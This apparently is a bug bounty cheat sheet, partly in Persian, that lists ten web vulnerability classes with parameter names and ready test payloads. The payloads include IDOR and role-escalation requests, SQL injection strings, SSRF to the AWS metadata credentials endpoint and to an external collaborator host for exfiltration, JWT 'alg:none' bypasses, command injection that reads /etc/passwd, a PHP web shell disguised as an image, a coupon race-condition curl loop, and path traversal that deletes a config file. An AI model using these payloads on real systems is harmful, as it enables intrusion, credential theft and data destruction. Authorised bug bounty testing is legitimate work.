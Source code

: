 🚀 P1 Bug Bounty Cheat Sheet (2025)
1. 🔑 IDOR (Insecure Direct Object Reference)

پارامترهای حساس:

```
user_id, account_id, profile_id, order_id, invoice_id, doc_id, uid
```

Payload تست:
```
GET /api/user/profile?user_id=12345   # کاربر A
GET /api/user/profile?user_id=12346   # دسترسی غیرمجاز به کاربر B
```
2. 🔒 Broken Access Control (BAC - فنی)

پارامترهای حساس:
```
role, isAdmin, permission, access_level, group
```

Payload تست:
```
POST /api/updateRole
{"user":"12345","role":"admin"}   # ارتقاء نقش غیرمجاز
```
3. 💉 SQL Injection (Error Based)

پارامترهای حساس:
```
id, query, search, sort, filter, report_id
```

Payload تست:
```
?id=1'   -- Error Based
?id=1' ORDER BY 5-- 
?id=1' UNION SELECT null,null,version()-- 
```
4. 🌐 SSRF (Server-Side Request Forgery)

پارامترهای حساس:
```
url, link, target, callback, feed, redirect, endpoint, webhook
```

Payload تست:
```
url=http://127.0.0.1:22        # تست پورت داخلی
url=http://169.254.169.254/latest/meta-data/iam/security-credentials/  # AWS metadata
url=http://burpcollaborator.net/abc   # DNS exfil
```
5. 🛑 Authentication Bypass (فنی)

پارامترهای حساس:
```
auth, token, session_id, jwt, sso, bearer
```

Payload تست:
```
Authorization: Bearer null
Authorization: Bearer '' 
Cookie: session_id=123 OR 1=1
jwt={"alg":"none","kid":"1","payload":{"role":"admin"}}
```
6. 💣 RCE (Remote Code Execution)

پارامترهای حساس:
```
cmd, exec, shell, process, run
```

Payload تست:
```
cmd=ls -la; id
exec=whoami && cat /etc/passwd
```
7. 🐚 Shell Upload (نوعی RCE)

پارامترهای حساس:
```
file, upload, avatar, media, image
```

Payload تست (PHP Shell):
```
<?php system($_GET['cmd']); ?>
```

آپلود با نام: shell.php.jpg

دسترسی: http://site.com/uploads/shell.php?cmd=id

8. 📤 Unrestricted File Upload

پارامترهای حساس:
```
upload, file, attachment, document
```

Payload تست:

آپلود .htaccess برای اجرای PHP

آپلود فایل evil.svg با JavaScript درون SVG

9. ⚡ Race Condition

پارامترهای حساس:
```
coupon, promo, balance, transfer, withdraw
```

Payload تست:
```
# استفاده همزمان از یک کوپن تخفیف
for i in {1..50}; do curl -X POST https://target.com/redeem?coupon=FREE100 & done
```
10. 📂 Path Traversal / Arbitrary File Deletion

پارامترهای حساس:
```
file, path, dir, delete, remove, download
```

Payload تست:
```
download=../../../../etc/passwd
delete=../../../../var/www/html/config.php
```
✅ Quick Notes

ابزار پیشنهادی برای پیدا کردن این پارامترها: Burp ParamMiner, Arjun, NarrowX

اول روی Token / IDOR / File / Redirect / SSRF تمرکز کن (بیشترین P1 Report ها در ۲۰۲۵)

برای اثبات، همیشه PoC کوتاه + اسکرین‌شات + هدر/ریسپانس بذار
